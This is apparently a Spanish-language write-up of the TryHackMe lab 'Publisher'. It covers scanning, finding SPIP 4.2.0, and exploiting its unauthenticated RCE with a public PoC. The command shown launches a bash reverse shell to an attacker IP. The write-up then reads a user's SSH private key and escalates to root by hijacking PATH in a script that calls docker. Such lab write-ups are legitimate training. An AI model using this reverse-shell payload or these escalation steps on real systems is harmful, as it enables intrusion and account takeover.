


# Publisher - TryHackMe (Fácil)

Publisher es una máquina Linux de la plataforma TryHackMe, de dificultad fácil. 

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeracion)
- [Explotación](#explotacion)
- [Post-Explotación](#post-explotacion)
- [Escalada de privilegios](#escalada-de-privilegios)

## Reconocimiento

Lo primero es comprobar la conectividad con la máquina haciendo ping.


Hacemos un escaner con Nmap para ver los puertos abiertos en la máquina.

```
sudo nmap -p- -vvv --open -sS -Pn -T5 -n 10.10.40.116 -oN open-ports
```

Vemos que los puertos 22 y 80 están abiertos.


Hacemos otro escaner con Nmap para ver que servicios corren en esos puertos.

```
nmap -p 22,80 -sVC -vvv -Pn -n 10.10.40.116 -oN scan
```

Vemos que en el puerto 22 corre un servicio OpenSSH 8.2p1 y en el puerto 80 un Apache httpd 2.4.41.

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:e3:68:de:c1:bb:00:e1:58:18:ed:3f:67:8b:2a:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4y85yRrulKZSvmmjGZ5zh49yDGHZGUI61PKqySQMjE6KfbZ36pmYyjXn8S/N6k2Sui/ci2TQlKNf2riNL+dbXuUYgZDlocde+dK71LgqoJGFCP/sbi92ldXHrw4VysdP9VBv26xsa0UiHG+cSkRl39MqlWN2M+eYnsnKB6FfozzQpBisVtlAiETOmyH4X+iX52KczaoOTbrjWxHy1/YLBAhy6L91PFPDIKqWQsNiTjsqO8JjdmySnM5P+K9tVDOJ/5vRFFcmR2hPWAFzcb5geT5xLCiWsWtm7OVim/BdCFVMTG6bj18hBKX3LG0a3kSoZAy3B8lDjfW9BpbIcFSpiybXySKzwjj7UbSS1QeiFfc7GEjUzlY3ObRnno3afiF14AKHJAHKglIqdZDMthZFPvrGGH1mpy09I3hasdEvQtLy5j8qg8NHdj+qgcAB3tlMoQW14WxMvsuI6iRbp8RMYDXytXad903NBya3CDfhLhgu6ijNM05ew0l10kEVtV60=
|   256 c8:0b:02:53:60:d3:3d:f1:fd:5b:2b:df:36:48:68:9f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBrdfoMFNwN8wiXFBV13ugFBK5wRl/StO+c5A9FV1To25Gw5cDBLwQfIxRWLTF+5HwEykk2Hrqv3Ua03kbAMZh0=
|   256 41:a3:c3:a6:a1:f3:cd:aa:60:76:14:1c:c6:10:ff:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILpMbl++rHu1kzUD7e6/mK+xPvVEOReddctyQk64MIK9
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que la página es estatica y no hay mucho que ver asi que vamos a enumerar directorios y archivos con el comando `ffuf`


## Enumeración

Con el comando `ffuf` buscamos directorios y archivos ocultos.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.php,.js,.txt,.md -u http://10.10.40.116/FUZZ
```

Vemos que hay un directorio /spip


Buscando que es SPIP vemos que es una aplicación web de gestión de contenidos .


Si buscamos vulnerabilidades de SPIP con el comando `searchsploit spip` vemos que hay bastantes vulnerabilidades, pero de distintas versiones. Asi que con el comando `ffuf` vamos a buscar archivos en los que podamos ver la **version de spip**.  


```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.php,.js,.txt,.md -u http://10.10.40.116/spip/FUZZ
```

Entre varios directorios y archivos podremos ver la versión en el archivo **CHANGELOG.md**


Vemos que la versión es la 4.2.0


Con el comando `searchsploit 4.2` vemos que hay una vulnerabilidad RCE sin necesidad de autenticación. 


## Explotación

En este enlace podemos ver el código de una PoC en python que explota esta vulnerabilidad:
https://www.exploit-db.com/exploits/51536

Revisando el código vemos que simplemente hace un GET a la url **"URL+/spip.php?page=spip_pass"** y de la respuesta coge el valor del token Anti-CSRF. Después hace un POST a la misma url con ese token, y un payload en php que simplemente ejecuta un comando.


Probamos la PoC con este comando (obviamente antes ejecutamos `nc -lvnp 4444` para poner el puerto 4444 en escucha):

```
python3 spip-rce.py -u http://10.10.40.116/spip -c '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.9.1.173/4444 0>&1"' -v
```

Y de esta forma obtenemos una shell con el usuario `www-data`


## Post-Explotación

Estabilizamos la shell con los siguientes comandos:

```
script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

## Escalada de privilegios

Para escalar privilegios. Somos el usuario www-data, existen dos usuarios en el sistema, think y root. Vamos primero intentar obtener acceso a think.


Vemos que tenemos acceso a /home/think.


Dentro de /home/think esta el user.txt


Entramos a /home/think/.ssh y vemos que podemos leer el archivo id_rsa. id_rsa es una clave privada para conectarnos como in usuario por SSH. En vez de conectarnos con su contraseña, nos conectaríamos con la clave.


Copiamos la clave y la pegamos en la máquina atacante.

`nvim id_rsa`



Cambiamos los permisos a solo lectura y escritura por el owner.

`chmod 600 id_rsa`

Nos conectamos por ssh y obtenemos acceso.

`ssh -i id_rsa think@10.10.40.116`


Ya dentro de la máquina como usuario think, buscamos binarios con permiso SUID.

```
find / -perm /4000 2>/dev/null 
```

Encontramos ests binario, el cual es raro que tenga permisos SUID.


Vamos a pasar este binario a la máquina atacante para analizar el archivo.

Creamos un servidor http con python.

`python3 -m http.server 8181`

Y con wget descargamos el binario en la máquina atacante.


Con el comando strings buscamos palabras legibles. Y vemos que este binario podría ejecutar el archivo `/opt/run_container`


Leemos el archivo `/opt/run_container` y vemos que ejecuta el comando docker sin poner la ruta absoluta. Por lo que podriamos crear un binario `docker` y cambiar la variable PATH para que cuando el script ejecute docker, ejecute el comando que nosotros queramos.


Vamos al directorio `/var/tmp` en el cual tenemos permisos de escritura y creamos el binario docker, que contiene el comando `/bin/bash -p` el cual ejecutara una shel con permisos root.
Añadimos `/var/tmp` a la variable PATH.

 

Le damos a docker permisos de ejecución.


Ejecutamos `/opt/run_container.sh`.


Copiamos docker a /opt/run_container.sh.


Salimos de la shell (ya que al ejecutar `/opt/run_container.sh` ha abierto una shell) y ejecutamos `/usr/sbin/run_container`

 

Obtenemos una shell como root y dentro de /root podemos ver el root.txt.
 
